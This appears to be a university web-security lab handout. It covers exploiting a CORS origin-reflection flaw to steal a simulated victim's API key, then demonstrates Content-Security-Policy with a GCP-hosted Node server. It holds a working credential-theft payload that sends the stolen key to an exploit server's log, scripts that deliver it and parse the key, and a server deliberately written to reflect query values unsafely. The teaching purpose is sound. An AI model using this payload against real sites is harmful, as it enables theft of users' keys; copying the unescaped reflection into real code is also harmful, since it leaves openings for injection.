basic-origin-reflection-attack
CORS is a way to control API access across domains for particular web services. Unfortunately, some developers do not wish to track all of the domains that have access to its content. To avoid having to specify these domains, they will instead allow all sites access by simply reflecting back the contents of the Origin: request header into the subsequent Access-Control-Allow-Origin: response header. If the site ig.com did this and its users had sensitive API keys stored on the site, this would allow malicious.com to be able to access a victim's API key on ig.com once the victim visits malicious.com.
Demonstrate vulnerability
To demonstrate this attack, visit the level site and login with the credentials you are given (e.g. wiener / peter). For the exercise, a vulnerable site stores a user's sensitive API key. It has been set-up to allow cross-origin access from everywhere by reflecting the Origin: request header back onto the Access-Control-Allow-Origin: response header. The goal is to obtain a victim account's API key on the site. To do so, we host malicious content on an exploit site that the victim visits. When the victim visits the exploit site, a script on the site will pull the victim's API key from the vulnerable site and reveal it. Submitting this API key will solve the level.
Start by logging into the site. Bring up the Developer Tools console, click on the "Network" tab, and then click on "My account".

View the response page to see that your API key has been retrieved as part of the page access. The key has been retrieved via an embedded request. Navigate the requests shown in the Developer Tools and click on the "accountDetails" request. Examine the response headers.
- Show a screenshot of the CORS header that enables credentials to be sent to get the key.
We will now send a request to the accountDetails API endpoint from a bogus domain to see if it is allowed. Consider the script below that logs in as the user, then modifies the session headers to add the Origin: header. Modify the script to set the header to a bogus site containing your OdinID (e.g. https://wuchang.com). The script then attempts to access the accountDetails API endpoint.
site_url = f'https://{site}'
login_url = f"https://{site}/login"
login_response = s.get(login_url)
csrf = bs4.BeautifulSoup(login_response.text,'html.parser').find('input', {'name':'csrf'})['value']
login_data = {
'csrf': csrf,
'username': 'wiener',
'password': 'peter'
}
resp = s.post(login_url,data=login_data)
s.headers.update({'Origin':'https://<FMI>.com'})
details_url = f"https://{site}/accountDetails"
resp = s.get(details_url)
# View the response headers showing the Origin is echoed
print(resp.headers)
# Get the response containing the API key
print(resp.text)- Show a screenshot of the headers in the response to see that the site simply reflects the header in
Access-Control-Allow-Origin:.
Because the Origin: is echoed, the accountDetails page can be accessed when embedded on any page (including the exploit server that the victim will visit!)
Develop exploit
We will now leverage the vulnerability to exploit the vulnerability in order to obtain the API key of a victim on the vulnerable site. Within the lab, login again using the credentials you are given and view your API key in "My account".
- Take a screenshot of the API key and include it in your lab notebook.

Our goal is to upload a malicious payload that results in the victim accessing its API key on the vulnerable site and then exposing it. Consider the code below:
exploit_html = f'''<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','{site_url}/accountDetails',true);
req.withCredentials = true;
req.send();
function reqListener() {{
location='/log?key='+this.responseText;
}};
</script>'''When uploaded to the exploit server and previewed using our own session, it will invoke the Javascript code to access the API endpoint that contains our API key on the vulnerable site. It will then attach it as a URL parameter to an HTTP request back to the exploit server via the path '/log?key='. A properly set CORS header would have blocked this request. Modify the site_url in the script to match your vulnerable site and then STORE the above HTML into the exploit server.
Then, visit the exploit server and click on "View exploit". As the exploit shows, the location of the browser will be set in a way that reveals the results of the request.
- Take a screenshot of the API key as it appears in the browser window.

Next, click on "Access log" within the exploit server to show that your API key has appeared.

Deliver exploit
Deliver the exploit to the victim either programmatically or via the web interface. This will cause an emulated victim to click on your payload while logged into the vulnerable site. After doing so, re-visit the "Access log" to view the victim's URL-encoded API key. Note that the victim's request comes in from a local IP address and uses the username of administrator:

Copy the API key (enclosed in the URL-encoded double-quotes %22), click on "Submit solution", and then paste it to solve the level.
Programmatically, this can be done via Python. The snippet below, delivers the exploit to the victim.
formData = {
'urlIsHttps': 'on',
'responseFile': '/exploit',
'responseHead': 'HTTP/1.1 200 OK\nContent-Type: text/html; charset=utf-8',
'responseBody': exploit_html,
'formAction': 'DELIVER_TO_VICTIM'
}
resp = s.post(exploit_url, data=formData)Then, the code below pulls the log entries from the exploit server and searches for accesses from the victim (administrator). It then prints the first one.
log_url = f'{exploit_url}/log'
resp = s.get(log_url)
soup = BeautifulSoup(resp.text,'html.parser')
pretext = soup.find('pre').text.split('\n')
admin_entries = [line for line in pretext if 'administrator' in line]
print(admin_entries[0])Given this log entry, the code below then parses out the administrator's API key by splitting the output on the URL-encoded double-quote (%22). Both the resulting list and the entry containing the API key are then printed:
log_entries = admin_entries[0].split('%22')
print(log_entries)
print(log_entries[11])Finally, the API key is submitted onto the original site's solution submission form.
submit_url = f'https://{site}/submitSolution'
solution_data = {
'answer' : {log_entries[11]}
}
s.post(submit_url, data=solution_data)- Take a screenshot showing completion of the level that includes the level URL and your OdinId
From the detailed guide to 'exotic HTTP headers'. We'll be running a toy web application on a virtual machine on Google Cloud Platform to demonstrate the use of the header. VMs on GCP typically have their network traffic filtered by default. For our application, we'll first need to set up some firewall rules to allow access to the ports the toy web application uses.
Option #1: Web console
Visit your Google Cloud Platform project and select "VPC network" and "Firewall"

Create a firewall rule named csp-demo-server

Specify a target tag named the same, then in the Ingress direction, specify that all source IP addresses (0.0.0.0/0) can access TCP ports 4321 and 1234.

Then, create the rule.

Option #2: Web shell
Visit the web console and click on the Cloud Shell icon.

Then, run the following gcloud command for creating the rule.
gcloud compute firewall-rules create csp-demo-server \
--allow=tcp:4321,tcp:1234 --target-tags=csp-demo-server \
--direction=INGRESSNext, create a new Compute Engine VM instance.
Option #1: Web console
Visit the Compute Engine console and create a new instance named csp, specifying its location to be in us-west1-b and a recent version of Ubuntu.



Then, within the Networking subsection, attach the csp-demo-server tag created previously.

Then, Create the VM. Note the IP address of the instance, then click on the "SSH" button for it to bring up a session.

Option #2: Cloud Shell
One can also launch the VM via gcloud with the appropriate flags set as below:
gcloud compute instances create csp \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--zone=us-west1-b \
--machine-type=e2-micro \
--tags=csp-demo-serverThen, after it comes fully up, you can ssh into it via:
gcloud compute ssh cspNote
Install NodeJS and npm
Within the SSH terminal, run the following commands to install NodeJS and npm (the package manager for Node.JS).
sudo apt update -y sudo apt install nodejs npm git -y
Download and setup the NodeJS server code
Clone the repository with the code and install its packages.
git clone https://github.com/wu4f/cs495-src cd cs495-src/xss-csp npm install
The NodeJS server for testing HTTP's Content-Security-Policy (CSP) header is in csp_server.js. We will bring up a debug version of the server on ports 4321 and 1234. Setting the DEBUG environment variable to express:router allows us to see the URL routes our server is handling. Run the following to bring the server up locally (e.g. localhost) at ports 1234 and 4321.
DEBUG=express:router nodejs csp_server.js
Note that to terminate the server, use Ctrl+c.
Visit the server at port 4321
After running the server, go to a web browser and point it to http://external_IP_address:4321 to view the landing page.

Examine NodeJS server
The source code for the server we will use to look at how CSP works is below. As the outer code snippet of the server shows, node will bring up two identical servers on localhost: one on port 1234 and one on port 4321.
"use strict"
var request = require('request')
var express = require('express')
for (let port of [1234, 4321]) {
var app = express()
app.use('/script.js'...
...
app.use((req, res) => ...
...
app.listen(port)
}Within the main code block, the server first registers a '/script.js' route that sends a Javascript command to update a particular element by its ID (req.query.id). If the script is allowed to run on the caller, the HTML of the element is changed with a message that notifies the user the script changed it. The URL is then logged onto the NodeJS console.
app.use('/script.js', (req, res) => {
res.send(`document.querySelector('#${req.query.id}').innerHTML = 'changed by ${req.query.id} script'`)
console.log(req.url)
})The second route handles all other requests.
- It pulls a request field labeled
cspfrom the URL and uses it to set theContent-Security-PolicyHTTP response header on the response to the request. - It then sends the HTML for the page. If the URL request contains a request parameter named
'user', NodeJS fills in theh1header greeting with its value, otherwise it prints'anonymous'. - This is followed by 3
ptags each with its ownid:inline,local, andremote.Each tag starts out with the text'is this going to be changed by..script?' - This is followed by 3
scripttags. Each script tag attempts to invoke the exact same Javascript code to change the text of theptag it is associated with. - The first one attempts to modify the <
p id="inline"> element via an in-line Javascript call - The second one attempts to modify the <
p id="origin"> element via a script downloaded from the same-origin ('/script.js') - The third one attempts to modify the <
p id="remote"> element via a script downloaded from a different origin: ('http://${req.hostname}:1234/script.js?id=remote'). Note that this assumes that the original page is served from the server running on port 4321.
app.use((req, res) => {
var csp = req.query.csp
if (csp) res.header('Content-Security-Policy', csp)
res.send(`
<html>
<body>
<h1>Hello, ${req.query.user || 'anonymous'}</h1>
<p id="inline">is this going to be changed by inline script?</p>
<p id="origin">is this going to be changed by origin script?</p>
<p id="remote">is this going to be changed by remote script?</p>
<script>document.querySelector('#inline').innerHTML = 'changed by inline script'</script>
<script src="/script.js?id=origin"></script>
<script src="http://${req.hostname}:1234/script.js?id=remote"></script>
</body>
</html>
`)
console.log(req.url)
})For the exercises below, substitute your username for 'OdinID' in links below.
Example #1
Start by generating the page that allows all three scripts to change base HTML. The request only contains the 'user' request parameter, but not the 'csp' parameter. As a result, no Content-Security-Policy header is returned by the server and all 3 scripts will run and modify their respective p elements:
http://IP_address:4321/?user=OdinID
- Take a screenshot of the page result that includes the URL in the browser
Example #2
Now, open up the Developer Tools and go to the Console. We will now set the policy via the csp parameter to be the most restrictive (i.e. default-src 'none').
http://IP_address:4321/?user=OdinID&csp=default-src 'none'
- Find the Content-Security-Policy: response header in the original request and take a screenshot showing it has been set properly
- Take a screenshot of the console output showing all scripts blocked
- Take a screenshot of the page result that includes the URL in the browser
Example #3
We will now set the policy via the csp parameter to allow scripts from 'self'. (i.e. default-src 'self'). http://IP_address:4321/?user=OdinID&csp=default-src 'self'
- Take a screenshot of the console output showing the scripts that have been blocked. Explain why these results differ from the previous example.
- Take a screenshot of the page result that includes the URL in the browser
Example #4
Finally, we will augment the policy again to allow additional script options. http://IP_address:4321/?user=OdinID&csp=default-src 'self'; script-src 'self' 'unsafe-inline'
- Take a screenshot of the console output showing the scripts that have been blocked. Explain why these results differ from the previous example based on the additional options given.
- Take a screenshot of the page result that includes the URL in the browser
Option #1: Web console
Visit the Compute Engine and VPC network consoles and delete the VM and firewall rule.

Option #2: Cloud Shell
Run the gcloud commands below to delete the VM and firewall rule.
gcloud compute instances delete csp --zone=us-west1-b
gcloud compute firewall-rules delete csp-demo-server